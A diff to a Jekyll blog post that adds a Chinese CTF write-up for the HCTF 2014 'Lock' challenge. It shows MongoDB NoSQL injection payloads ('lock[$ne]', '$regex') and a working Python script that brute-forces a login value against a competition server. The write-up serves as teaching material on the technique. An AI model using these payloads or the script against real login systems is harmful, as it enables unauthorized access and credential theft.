

Before and after one commit to huntpig/rickgray.github.io, a Jekyll site: the page built from _posts/2014-11-10-hctf2014-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 10882 px. Shown: the whole window at 93% size, without its empty margins (148-1131 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add 'LOCK' writeup
add 'LOCK' writeup

```diff
--- a/_posts/2014-11-10-hctf2014-writeup.md
+++ b/_posts/2014-11-10-hctf2014-writeup.md
@@ -442,6 +442,72 @@
 
 flag：``hctf{Ar3_you_an_op3nsourc3_1ov3r?}``
 
+##Lock（300pt）
+
+题目是个登陆框，且注释里有tips：
+
+	<!-- wtf!! The key is the same as lock !! Can someone help to find the right lock ?!!!-->
+
+随即登陆，得到返回信息：
+
+	It seeeeeeemed the lock is not right!!!(╯°□°）╯︵ ┻━┻
+
+后排出普通sql注入，发现服务器上有开放27017（mongodb端口），因此开始mongodb注入尝试，通过post数据：
+
+	lock[$ne]=1&key=2
+
+得到不一样的返回页面，
+
+	Right, but it seemmed the key is not right!!!(╯°□°）╯︵ ┻━┻(╯°□°）╯︵ ┻━┻(╯°□°）╯︵ ┻━┻
+
+从而判断lock变量存在mongodb注入，因lock肯定为一字符串，可以用正则来爆，程序如下：
+
+{% highlight python%}
+#!/usr/bin/env python
+# coding: utf-8
+
+import requests
+import re
+import sys
+
+
+vul_url = 'http://121.40.86.166:23339'
+
+
+def build_payload(s):
+    post_data = {
+        'lock[$regex]': r'^%s.*' % s,
+        'key': ''
+    }
+    return post_data
+
+
+def fuzz_char(s):
+    #可加入其他可打印字符
+    for c in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
+        payload = s + c
+        response = requests.post(vul_url, data=build_payload(payload))
+        m = re.compile('Right').findall(response.content)
+
+        if m:
+            print '[*] Fuzzing: "%s" [ok]' % payload
+            fuzz_char(payload)
+
+    print '[*] Found $lock value: "%s"' % payload
+    sys.exit()
+
+lock = ''
+fuzz_char(lock)
+
+{% endhighlight %}
+
+跑了一会儿，得到最终的lock值：``9cc32bd6``
+
+post数据，得到flag：
+	lock=9cc32bd6&key=9cc32bd6
+
+flag：``hctf{Middleware_1s_al3o_Vulnerability!}``
+
 ##NormalFile（300pt）
 
 下载⽂文件下来 NormalFile.jpg 明显后⾯面有数据,解开之后发现__MACOSX下⾯面的同名图⽚片诡异的⼤：
```
Also changed, not shown: other parts of _posts/2014-11-10-hctf2014-writeup.md (+2 -2 lines).
